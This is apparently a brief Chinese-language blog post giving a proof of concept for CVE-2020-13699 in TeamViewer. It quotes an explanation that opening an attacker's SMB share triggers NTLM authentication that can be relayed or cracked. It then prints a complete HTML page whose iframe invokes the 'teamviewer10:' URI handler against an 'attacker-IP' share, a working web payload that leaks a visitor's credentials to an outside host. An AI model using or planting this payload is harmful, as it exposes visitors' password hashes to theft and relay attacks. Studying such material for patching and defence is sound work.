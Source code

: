 ```yaml
---
title: CVE-2020-13699  POC
categories: [dev]
comments: true
---
```

### 攻击者无需密码
`此外，由于SMB共享，并且是受害者的计算机发起与攻击者的SMB共享的连接，因此攻击者不需要知道用户的密码。他们将自动通过身份验证并获得访问权限。`

`霍夫曼解释说：“ Windows在打开SMB共享时将执行NTLM身份验证，并且可以转发该请求（使用诸如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）。” `

`这位工程师认为，从可用于攻击的URI方案中可以明显看出，多个TeamViewer版本受到了影响。`


```
<html>

<head>
<title>CVE-2020-13699 POC</title>
</head>

<body>
<p1>测试</p1>
<iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'></iframe>
</body>

</html>
```
